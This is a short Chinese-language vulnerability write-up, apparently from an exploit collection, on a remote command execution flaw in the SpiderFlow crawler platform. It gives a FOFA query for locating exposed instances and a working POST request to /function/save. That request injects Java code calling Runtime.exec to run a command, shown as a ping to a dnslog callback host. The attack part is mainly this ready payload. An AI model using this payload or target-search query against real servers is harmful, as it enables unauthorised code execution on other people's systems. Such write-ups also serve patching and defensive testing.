 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## FOFA

```
title=="SpiderFlow"
```

## 漏洞复现

主页面

![image-20220524153437590](./images/202205241534681.png)

发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![image-20220524153448336](./images/202205241534389.png)